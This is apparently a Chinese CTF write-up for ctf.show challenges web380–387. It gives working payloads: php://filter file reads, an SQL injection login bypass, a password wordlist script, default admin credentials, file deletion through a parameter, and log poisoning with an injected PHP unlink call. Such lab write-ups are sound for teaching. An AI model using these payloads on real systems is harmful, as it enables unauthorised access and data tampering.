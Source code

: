 ## web380

查看网页源代码

![图片](https://user-images.githubusercontent.com/81904597/119258090-d255f980-bbfa-11eb-82be-de2002b1fdbd.png)

能看到一个page_3.php的注释，看了一圈没看到什么东西，索性直接访问page.php

![图片](https://user-images.githubusercontent.com/81904597/119258098-daae3480-bbfa-11eb-857b-216b180506fc.png)

那就直接访问

```
page.php?id=1
```
![图片](https://user-images.githubusercontent.com/81904597/119258107-e13cac00-bbfa-11eb-8556-11a42ab3fd7f.png)
waring弹出，是使用file_get_contents读取文件，我们将1改为index发现直接返回了主页,那我们可以尝试读取有没有flag文件

```
page.php?id=flag
```
![图片](https://user-images.githubusercontent.com/81904597/119258118-eac61400-bbfa-11eb-815f-8f5175553f83.png)



```
file_get_contents

(PHP 4 >= 4.3.0, PHP 5, PHP 7, PHP 8)

file_get_contents — 将整个文件读入一个字符串

```

因为使用了file_get_contents，所以我们可以使用php伪协议来读取代码

```
page.php?id=php://filter/convert.base64-encode/resource=index
```

![图片](https://user-images.githubusercontent.com/81904597/119258128-f7e30300-bbfa-11eb-89a1-741153c4a2c7.png)

同样也可以读取flag文件

```
page.php?id=php://filter/convert.base64-encode/resource=flag
```

## web381

​	查看源代码，按照上一题的方法发现做不出，但是发现了一个alsckdfy经过测试是后台的地址。

![图片](https://user-images.githubusercontent.com/81904597/119258135-016c6b00-bbfb-11eb-9aed-78f8da44f63f.png)

```
/alsckdfy/(这里注意路由的写法)
```

题目的本意也是让我们找到后台的地址(这才是黑盒测试的本质)
![图片](https://user-images.githubusercontent.com/81904597/119258144-08937900-bbfb-11eb-81dd-de2449139f70.png)

## web382

后台弱口令，登录获得flag

```
admin 'or '1'='1
密码随意
```

## web383

解题思路与382一样

## web384

![图片](https://user-images.githubusercontent.com/81904597/119258148-0e895a00-bbfb-11eb-9d9a-91c18dc6ae2f.png)

题目提示前三位是小写字母，后三位是数字，所以题目的本意就是让我们爆破密码呗

后序一定补！

```python
length = 5
charLength = 2
char = 'abcdefghijklmnopqrstuvwxyz'

def formatNum(n):
    global length
    return '0'*(length-charLength-len(str(abs(n))))+str(abs(n))[:length-charLength]

string = ''
for n in char:
    for c in char:
        for i in range(pow(10,length-charLength)):
            string += n+c+formatNum(i)+'\n'

with open('dict.txt','w') as f:
    f.write(string)

```

burp跑一下字典得到密码为xy123

## web385

访问

```
http://e9bdf733-b2a1-4b5f-bfe0-df3cf7798266.challenge.ctf.show:8080/install/
```

![图片](https://user-images.githubusercontent.com/81904597/119258152-15b06800-bbfb-11eb-8826-35e39fa179bf.png)

根据提示

```
http://e9bdf733-b2a1-4b5f-bfe0-df3cf7798266.challenge.ctf.show:8080/install/?install
```

![图片](https://user-images.githubusercontent.com/81904597/119258167-29f46500-bbfb-11eb-8ea7-b2aa082fbd1e.png)

在访问后台登录页面,用原密码 admin admin888

登录获得flag

## web386

按照上一题，接着访问install
![图片](https://user-images.githubusercontent.com/81904597/119258176-337dcd00-bbfb-11eb-9b70-9f1d1b488eb7.png)

提示lock.dat存在无法重复安装，所以我们要尝试将lock.dat删除掉

经过扫描发现了存在一个clear.php,那肯定是用这个clear.php来删除文件，盲猜一波file参数

```
http://ed902854-7a20-47d6-b1bd-589fee68e5df.challenge.ctf.show:8080/clear.php?file=/var/www/html/install/lock.dat
```

![图片](https://user-images.githubusercontent.com/81904597/119258192-3d9fcb80-bbfb-11eb-9173-418358f249f7.png)

接着就到了上一题的步骤

登录即可

## web387

开局给了一个提示

![图片](https://user-images.githubusercontent.com/81904597/119258197-47293380-bbfb-11eb-8353-cbc5b897fd13.png)

经过尝试发现不可以。

访问一下robots.txt,发现/debug

![图片](https://user-images.githubusercontent.com/81904597/119258205-4bede780-bbfb-11eb-994d-6ce3e2b769c9.png)

访问一下
![图片](https://user-images.githubusercontent.com/81904597/119258213-51e3c880-bbfb-11eb-87c9-73e09bbd72ef.png)

提示file not exist,那直接file一个文件

![图片](https://user-images.githubusercontent.com/81904597/119258215-560fe600-bbfb-11eb-88df-4f65daa8816a.png)

那肯定也可以包含日志文件，尝试传入一句话失败了，原因是没有接受Post的值，也就是说他可以执行传入的东西，只是不接受，那直接传入php的代码将lock.dat删掉

```php
<?php unlink('/var/www/html/install/lock.dat')?>
```



![图片](https://user-images.githubusercontent.com/81904597/119258220-5b6d3080-bbfb-11eb-9747-f015dd0df369.png)

包含一下日志文件让他执行

![图片](https://user-images.githubusercontent.com/81904597/119258228-64f69880-bbfb-11eb-8c99-a942bc56df58.png)

然后访问install发现执行成功
![图片](https://user-images.githubusercontent.com/81904597/119258234-69bb4c80-bbfb-11eb-85a3-a160d23419f6.png)

登陆获得flag











